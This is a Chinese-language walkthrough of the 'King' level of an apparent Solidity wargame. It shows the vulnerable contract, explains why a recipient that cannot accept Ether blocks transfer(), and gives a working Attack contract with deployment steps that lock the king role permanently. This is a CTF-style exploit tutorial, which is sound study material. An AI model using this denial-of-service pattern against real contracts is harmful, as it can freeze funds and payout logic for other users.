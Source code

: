 # King
King這一關要求我們的地址成爲合約中的國王，并且防止任何人重新奪回王位。主要考察了solidity中發送Ether相關的知識，讓我們先看代碼。

## 合约代碼
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```
## 代碼分析
合約中值得分析的地方主要是在`receive`函數,這個函數會在合約收到Ether，并且`msg.data`為空時被調用。在這個函數中，首先會檢查`msg.value`是否大於等於原本的`prize`或者`msg.sender`是否為`owner`,如果是的話，就會把`msg.value`轉給原本的`king`,之後將`king`的地址改爲`msg.sender`,`prize`的值改爲`msg.value`。

問題就在於，我們是否可以在`payable(king).transfer(msg.value)`這一步使轉賬失敗，那麽就可以使得king的地址永遠不發生改變，來達到我們的目的。

這裏我們將部署一個合約作爲我們的地址，而如果合約内部不存在`receive`或是`fallback`函數，儅有任意一方想通過`transfer`轉賬Ether給我們的合約，交易都會失敗。關於這部分的解釋可以參考官方文檔：
>Contracts that receive Ether directly (without a function call, i.e. using `send` or `transfer`) but do not define a receive Ether function or a payable fallback function throw an exception, sending back the Ether (this was different before Solidity v0.4.0). 

另外一點在於我們需要使用`call`來調用`King`合約的`receive`函數，因為`send`和`transfer`僅允許使用2300 gas，所以我們要使用`call`來調用`King`合約的`receive`函數。

## 攻擊代碼
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
  constructor(address payable _target) payable {
    (bool success,) = _target.call{value:msg.value}("");
    require(success, "Failed to send Ether");
  }
}

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

## 攻擊過程
1. 編譯合約，先找到`King`合約後呼叫合約取得`prize`的數值
2. 部署`Attack`合約，`_target`為`King`合約的地址，`msg.value`為我們之前查詢到的`prize`數值，部署完成後即完成本關。
